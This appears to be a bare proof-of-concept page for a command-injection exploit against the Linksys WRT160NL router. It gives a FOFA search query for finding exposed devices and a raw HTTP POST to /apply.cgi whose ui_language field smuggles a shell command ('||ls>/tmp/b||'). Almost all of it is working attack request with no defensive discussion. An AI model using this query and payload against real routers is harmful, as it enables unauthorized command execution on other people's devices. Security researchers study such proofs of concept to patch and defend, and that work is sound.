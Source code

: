 FOFA
----

    app="LINKSYS-WRT160NL"

POC
---

    POST /apply.cgi;session_id=8e780f3bcc71e19a37cc3e60a5576241 HTTP/1.1
    Host: 192.168.1.150
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
    Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 854
    Origin: http://192.168.1.150
    Connection: close
    Referer: http://192.168.1.150/index.asp;session_id=8e780f3bcc71e19a37cc3e60a5576241
    Upgrade-Insecure-Requests: 1

    pptp_dhcp=0&(...)&ui_language=es||ls>/tmp/b||&(...)